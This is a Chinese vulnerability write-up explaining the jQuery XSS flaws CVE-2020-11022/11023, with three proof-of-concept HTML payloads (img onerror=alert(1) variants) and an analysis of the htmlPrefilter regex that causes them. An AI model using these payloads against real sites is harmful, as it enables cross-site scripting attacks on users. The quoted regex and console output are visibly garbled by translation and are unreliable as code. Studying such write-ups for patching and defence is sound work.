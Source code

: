 ```yaml
---
title: jQuery XSS漏洞 CVE-2020-11022 11023
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 开发框架漏洞
 - jQuery
---
```


# jQuery XSS漏洞 CVE-2020-11022/11023

## 漏洞描述

据NVD描述：在大于或等于1.2且在3.5.0之前的jQuery版本中，即使执行了消毒（sanitize）处理，也仍会执行将来自不受信任来源的HTML传递给jQuery的DOM操作方法（即html()、.append()等），从而导致xss漏洞。

## 漏洞影响

> [!NOTE]
>
> 3.5.0 > jQuery >= 1.2 

## 漏洞复现

在线复现地址， 可以通过观察变化了解漏洞

https://vulnerabledoma.in/jquery_htmlPrefilter_xss.html

```python
PoC 1.
<style><style /><img src=x onerror=alert(1)> 

PoC 2. (Only jQuery 3.x affected)
<img alt="<x" title="/><img src=x onerror=alert(1)>">

PoC 3.
<option><style></option></select><img src=x onerror=alert(1)></style>
```

![](/img/20210924015207179196.png)

PoC 1和PoC 2具有相同的根本原因。在中`.html()`，作为参数传递的HTML字符串将传递到 [$ .htmlPrefilter（）](https://api.jquery.com/jQuery.htmlPrefilter/)方法。该`htmlPrefilter`处理用于替换自闭合标签等进行到，通过使用以下正则表达式：`<tagname **/>**``<tagname ></tagname>`

```
rxhtmlTag = / <（?! area | br | col | embed | hr | img | input | link | meta | param）（（[[ww：-] +）[^>] *）\ /> / gi
[。 ..]
htmlPrefilter：function（html）{
  return html.replace（rxhtmlTag，“ <$ 1> </ $ 2>”）;
} 
```

如果PoC 1的HTML通过此替换，则输出将是：

```
> $ .htmlPrefilter（'<style> <style /> <img src = x onerror = alert（1）>'）
<“ <style> <style> </ style> <img src = x onerror = alert（1） >“
```

黄色部分是替换的字符串。由于此替换，`<style />`样式元素内部被替换`<style ></style>`为，结果是，之后的字符串从样式元素中被踢出。之后，`.html()`将替换的HTML分配给`innerHTML`。在这里，`<img ...>`字符串变成了实际的img标签，并触发了onerror事件。

顺便说一下，上述正则表达式在3.x之前的jQuery中使用。从3.x开始，使用了另一个经过稍加修改的正则表达式

```
rxhtmlTag = / <（?! area | br | col | embed | hr | img | input | link | meta | param）（（[[az] [^ \ / \ 0> \ x20 \ t \ r \ n \ f] *）[^>] *）\ /> / gi
```

此更改引入了另一个XSS向量，该向量可能仅由更多基本元素和属性导致XSS。通过此更改引入了PoC 2的向量。它仅适用于jQuery3.x。

```
> $ .htmlPrefilter（'<img alt =“ <x” title =“ /> <img src = x onerror = alert（1）>”>'）
<“ <img alt =” <x“ title =”> < / x“> <img src = x onerror = alert（1）>”>“
```

在这种情况下，属性值上的 img 字符串被踢出并发生XSS。